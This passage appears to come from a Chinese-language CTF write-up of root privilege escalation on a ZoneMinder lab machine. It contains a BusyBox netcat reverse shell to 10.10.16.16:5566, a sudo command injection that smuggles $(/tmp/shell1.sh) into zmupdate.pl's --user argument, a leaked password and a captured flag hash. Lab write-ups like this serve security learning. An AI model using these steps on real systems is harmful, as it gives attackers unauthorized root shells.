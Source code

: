 进入目标主机cmd

```
shell
whoami
script /dev/null -c bash
sudo -l
```

![image-20231224184807709](../图片/image-20231224184807709.png)

使用python 临时开启http服务传输shell脚本进行反弹

BusyBox 是一个**集成了三百多个最常用Linux命令和工具的软件**。 BusyBox 包含了一些简单的工具，例如ls、cat和echo等等，还包含了一些更大、更复杂的工具，例grep、find、mount以及telnet。 有些人将 BusyBox 称为 Linux 工具里的瑞士军刀

```
#!/bin/bash
busybox nc 10.10.16.16 5566 -e sh
```

使用sudo执行shell脚本 pass中的密码是上文linpeas找到的

```
sudo /usr/bin/zmupdate.pl --version=1 --user='$(/tmp/shell1.sh)' --pass=ZoneMinderPassword2023
```

nc开启监听上线

![image-20231224222107806](../图片/image-20231224222107806.png)

```
ec2fb16d285ebcb18e1a5e1725587b9c
```

1888吉利数保存一下

![image-20231224223446595](../图片/image-20231224223446595.png)

